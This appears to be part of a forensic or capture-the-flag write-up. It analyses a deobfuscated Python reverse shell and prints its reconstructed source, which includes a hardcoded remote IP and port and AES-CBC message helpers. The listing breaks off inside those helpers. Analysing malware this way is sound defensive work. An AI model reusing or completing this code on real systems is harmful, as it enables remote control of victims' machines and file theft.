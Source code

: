**Current best guess: ae245e3f61ebd02b9b93f3c35d231efd**

## Technical Details

### Malware Analysis

The deobfuscated malware revealed a sophisticated reverse shell with the following capabilities:

1. Encrypted communication using AES-CBC
2. Remote command execution on the victim's machine
3. File transfer capabilities (upload/download)
4. Automatic reconnection if connection is lost

### Deobfuscated Malware Code

After deobfuscation, we were able to reconstruct the malware's code. Here is the complete reconstructed source:

```python
#!/usr/bin/env python3
# Reconstructed source code from the obfuscated 'execute' file
# WARNING: This is malicious code - do not execute!

import os
import socket
import threading
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

# Constants
BUFFER_SIZE = 4096
SEPARATOR = "<SEPARATOR>"
# Remote connection target
TARGET_IP = "13.61.7.218"
TARGET_PORT = 55155

# Encryption/decryption functions
def enc_mes(mes, key):
    # Create AES cipher in CBC mode
    cypher = AES.new(key.encode(), AES.MODE_CBC)
    # Convert message to bytes if needed
    if type(mes) != bytes:
        mes = mes.encode()
    # Pad and encrypt
    cypher_block = cypher.encrypt(pad(mes, 16))
    return cypher_block

def dec_file_mes(mes, key):
    # Create AES cipher in CBC mode
    cypher = AES.new(key.encode(), AES.MODE_CBC)
    # Decrypt and unpad
    cypher_block = cypher.decrypt(mes)
    s = unpad(cypher_block, 16)
    return s

def dec_mes(mes, key):
    # Create AES cipher in CBC mode
    cypher = AES.new(key.encode(), AES.MODE_CBC)
    # Decrypt and unpad
    cypher_block = cypher.decrypt(mes)
    v = unpad(cypher_block, 16)
```